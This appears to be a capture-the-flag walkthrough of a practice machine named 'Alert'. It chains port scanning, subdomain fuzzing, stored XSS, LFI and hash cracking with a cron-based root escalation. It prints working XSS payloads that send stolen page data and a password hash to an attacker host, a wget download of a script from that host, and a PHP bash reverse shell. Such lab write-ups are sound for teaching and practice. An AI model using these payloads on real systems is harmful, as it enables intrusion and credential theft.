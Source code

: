 # Alert

```
Difficulty: Easy
Operating System: Linux
Hints: True
```

### 🏁 Summary of Attack Chain

| Step | User / Access | Technique Used | Result |
| :-- | :--- | :--- | :--- |
| 1 | `N/A` | **Nmap Scan** | Performed initial enumeration using **Nmap** to discover open ports. Identified ports `22` (SSH) and `80` (HTTP) were open. |
| 2 | `N/A` | **Subdomain Enumeration** | Used **`ffuf`** to perform host header fuzzing, which revealed the subdomain `statistics.alert.htb`. |
| 3 | `N/A` | **XSS & LFI Chaining** | Exploited a stored **XSS** vulnerability in the markdown upload feature to exfiltrate the contents of an internal `messages` page. This led to the discovery of a **Local File Inclusion (LFI)** vulnerability via a `file` parameter. |
| 4 | `albert` | **LFI with Directory Traversal** | Used the LFI vulnerability with directory traversal (`../../`) to read the `.htpasswd` file from the `statistics` subdomain. This file contained the hash for the user `albert`. |
| 5 | `albert` | **Hash Cracking & SSH Login** | Used **`john the ripper`** with the `rockyou.txt` wordlist to crack the `albert` hash. Used the recovered password to log in via **SSH** and get the `user.txt` flag. |
| 6 | `root` | **Privilege Escalation** | Enumerated the system and discovered a local service on port `8080`. Also found a writable directory `/opt/Website_Monitor/` where a PHP script was being executed as **root** by a cron job. Created a reverse shell payload in a PHP file and placed it in the directory. |
| 7 | `root` | **Reverse Shell** | Set up a Netcat listener and waited for the cron job to run. The script was executed as `root`, which triggered the reverse shell and granted full administrator privileges, allowing for retrieval of the `root.txt` flag. |

### **1. Initial Reconnaissance** 🕵️

First, run an **Nmap** scan to identify open ports and services.

```bash
nmap -sC -sV -T4 -Pn alert.htb
```

This scan reveals two open ports:

  * **Port 22:** SSH
  * **Port 80:** HTTP (Apache web server)

-----

### **2. Gaining a Foothold** 💻

The website on port 80 allows the upload of markdown files. We'll use a **host header fuzzing** tool to find subdomains.

```bash
ffuf -w /usr/share/wordlists/main.txt -u http://alert.htb -H "Host:FUZZ.alert.htb" -ac
```

This command discovers the **statistics.alert.htb** subdomain.

The core of the initial exploit is a **Cross-Site Scripting (XSS)** vulnerability. We will use a stored XSS payload in a markdown file to exfiltrate the contents of an internal page, `index.php?page=messages`.

Create a markdown file (`payload.md`) with the following content:

```html
<script>
fetch("http://alert.htb/index.php?page=messages")
.then(response => response.text())
.then(data => {
  // Replace <ATTACKER_IP> with your IP address
  fetch("http://<ATTACKER_IP>/?data=" + encodeURIComponent(data));
})
.catch(error => console.error("Error fetching the messages:", error));
</script>
```

Set up a simple Python web server to capture the exfiltrated data:

```bash
python3 -m http.server 80
```

Now, upload the `payload.md` file to the website and copy the sharing link. When the administrator visits the link, your server will receive the HTML content of the `messages` page. Analyzing this content reveals a link with a file parameter: `messages.php?file=...`.

This indicates a **Local File Inclusion (LFI)** vulnerability. We'll use this vulnerability with directory traversal to read the `.htpasswd` file from the **statistics** subdomain.

Create a new markdown file (`lfi_payload.md`) with the following JavaScript payload:

```html
<script>
fetch("http://alert.htb/messages.php?file=../../../../../../../var/www/statistics.alert.htb/.htpasswd")
.then(response => response.text())
.then(data => {
  // Replace <ATTACKER_IP> with your IP address
  fetch("http://<ATTACKER_IP>:8888/?file_content=" + encodeURIComponent(data));
});
</script>
```

Start a new web server on a different port (e.g., 8888) to receive the hash:

```bash
nc -lvnp 8888
```

Upload this new markdown file and share the link. The hash will be sent to your Netcat listener:

```
albert:$apr1$bXXXXXXXXXXXXXXXXXXXXXXXXXXXXx/
```

Save this hash to a file (e.g., `hash.txt`) and use **John the Ripper** to crack it with the `rockyou.txt` wordlist.

```bash
john --wordlist=/usr/share/wordlists/rockyou.txt --format=md5crypt-long hash.txt
```

The cracked password allows you to log in via SSH.

```bash
ssh albert@alert.htb
```

-----

### **3. Privilege Escalation** 📈

Once you have a shell as `albert`, run a comprehensive enumeration script like **LinPEAS** to find a path to root.

```bash
wget http://<ATTACKER_IP>/linpeas.sh
chmod +x linpeas.sh
./linpeas.sh
```

The `linpeas.sh` output highlights two key findings:

1.  A service is running locally on **port 8080**.
2.  The `/opt/Website_Monitor/` directory is writable by your user, and a cron job runs PHP files inside it as **root**.

First, forward the local port 8080 to your machine using an **SSH tunnel**.

```bash
ssh -L 8080:127.0.0.1:8080 albert@alert.htb
```

Now, create a PHP reverse shell payload and place it in the vulnerable directory.

```bash
cd /opt/Website_Monitor/
echo '<?php exec("/bin/bash -c '\''bash -i >& /dev/tcp/<ATTACKER_IP>/100 0>&1'\''); ?>' > shell.php
```

Set up a Netcat listener on your machine to catch the root shell.

```bash
nc -lvnp 100
```

Wait a few minutes for the cron job to run. The PHP script will execute, sending a reverse shell to your listener, giving you root access.